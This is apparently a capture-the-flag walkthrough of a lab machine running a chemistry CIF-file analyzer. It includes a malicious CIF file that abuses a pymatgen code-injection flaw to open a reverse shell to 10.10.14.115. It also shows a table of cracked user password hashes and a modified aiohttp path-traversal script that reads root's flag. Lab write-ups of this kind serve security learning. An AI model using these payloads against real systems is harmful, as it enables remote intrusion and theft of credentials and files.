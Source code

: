 ## Initial portscan
```shell
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Sat, 08 Mar 2025 13:55:02 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
```

## Foothold
The webpage gives us an upload form after you register with a free account.

Also gives us an example of a CIF file, download it. 

Searching the iNet for exploits on CIF file I found:
- https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

Here is the payload:
```shell
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.115/1337 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```

Dump the secrets of the SQLite database.

Now pass the hashes in crackstation to get some passwds!

```shell
-------------------------------------------------------------------------------
id	username	password                                crackstation passwd
-------------------------------------------------------------------------------
1	admin	    2861debaf8d99436a10ed6f75a252abf        unicorniosrosados
2	app	        197865e46b878d9e74a0346b6d59886a
3	rosa	    63ed86ee9f624c7b14f1d4f43dc251a5
4	robert	    02fcf7cfc10adc37959fb21f06c6b467
5	jobert	    3dec299e06f7ed187bac06bd3b670ab2
6	carlos	    9ad48828b0955513f7cf0f7f6510c8f8        carlos123
7	peter	    6845c17d298d95aa942127bdad2ceb9b        peterparker
8	victoria	c3601ad2286a4293868ec2a4bc606ba3        victoria123
9	tania	    a4aa55e816205dc0389591c9f82f43bb
10	eusebio	    6cad48078d0241cca9a7b322ecd073b3
11	gelacia	    4af70c80b68267012ecdac9a7e916d18
12	fabian	    4e5d71f53fdd2eabdbabb233113b5dc0
13	axel	    9347f9724ca083b17e39555c36fd9007
14	kristel	    6896ba7b11a62cacffbdaded457c6d92
15	dqwdqd	    36aa69f4d3824a9a431ea51955dbc542        wqdqd
```

Use SSH to connect with the rosa user and output the processes using `ps -ef`

```shell
app         1034       1  1 13:44 ?        00:01:03 /usr/bin/python3.9 /home/app/app.py
root        1035       1  0 13:44 ?        00:00:00 /usr/bin/python3.9 /opt/monitoring_site/app.py
```

Notice the root user running `/usr/bin/python3.9 /opt/monitoring_site/app.py`. 

Trying to take a look at `/opt/` directory gives us a beautiful Permission Denied :(

Instead, let's try to look up for open ports:

```shell
rosa@chemistry:/opt$ netstat -plant
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      1 10.129.47.93:45524      8.8.8.8:53              SYN_SENT    -                   
tcp        0      0 10.129.47.93:50174      10.10.14.115:1337       ESTABLISHED -                   
tcp        0      0 10.129.47.93:5000       10.10.14.115:36406      ESTABLISHED -                   
tcp        0    432 10.129.47.93:22         10.10.14.115:37788      ESTABLISHED -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

Let's bring port 8080 to our localhost.

Intercept the requests with BurpSuite and notice the following header:
- `Server: Python/3.9 aiohttp/3.9.1`

Search for vulnerabilities and find path transversal (CVE-2024-23334-PoC)

The script needs a little modification, so we can get `/root/root.txt`.

```shell
#!/bin/bash
url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $url$payload$file"
    curl --path-as-is  "$url$payload$file"
    # status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    # echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```
